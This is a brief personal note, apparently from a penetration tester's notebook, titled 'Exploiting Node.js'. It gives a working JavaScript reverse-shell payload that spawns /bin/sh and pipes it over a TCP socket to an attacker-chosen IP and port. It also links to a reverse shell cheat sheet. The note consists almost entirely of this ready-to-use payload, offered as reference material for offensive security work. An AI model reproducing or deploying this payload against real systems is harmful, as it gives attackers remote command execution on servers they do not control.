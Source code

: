# Exploiting Node.js

* **author**:: Nathan Acks
* **date**:: 2021-10-09

The hard part of popping a reverse shell on a Node.js server is tricking the server to load your code. If you can figure out how to do that, this seems to produce a reliable connection:

```javascript
(function(){
	var net = require("net"),
	    cp  = require("child_process"),
	    sh = cp.spawn("/bin/sh", []);
	var client = new net.Socket();
	client.connect(1234, "127.0.0.1", function(){
		// Customize port and IP address above to taste
		client.pipe(sh.stdin);
		sh.stdout.pipe(client);
		sh.stderr.pipe(client);
	});
	return /a/; // Prevents Node.js from crashing
})();
```

* [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
